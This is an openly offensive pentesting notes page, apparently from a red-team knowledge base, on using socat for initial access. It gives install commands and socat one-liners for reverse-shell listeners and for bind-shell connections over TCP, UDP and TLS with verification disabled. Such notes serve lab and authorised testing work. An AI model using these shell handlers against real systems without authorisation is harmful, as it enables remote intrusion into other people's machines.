 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - socat
---
```

# Socat

## 01 - Setup

Install `socat` according to your package manager.

```
$ sudo apt install -y socat

$ sudo dnf install -y socat

$ sudo pacman -S --noconfirm socat
```

Checking a remote connection with verbosed debug.

```
$ socat -dddd - tcp4:<remote_IP>:<remote_PORT>
```

> [!NOTE]
> Using root privileges to bind a listener to ports below 1024.

## 02 - Reverse Shell Handler

### 2.1 - TCP Method

```
$ socat FILE:`tty`,raw,echo=0 TCP-LISTEN:<PORT>

$ socat -d -d TCP4-LISTEN:443 STDOUT
```

## 03 - Bind Shell Handler

### 3.1 - TCP Method

```
$ socat FILE:`tty`,raw,echo=0 TCP:<target_IP>:<target_PORT>
```

### 3.2 - UDP Method

```
$ socat FILE:`tty`,raw,echo=0 UDP:<target_IP>:<target_PORT>
```

### 3.3 - TLS Method

```
$ socat - OPENSSL:<target_IP>:<target_PORT>,verify=0
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Payloads/Cross Platform/One-Liners/Netcat Variants/Socat]]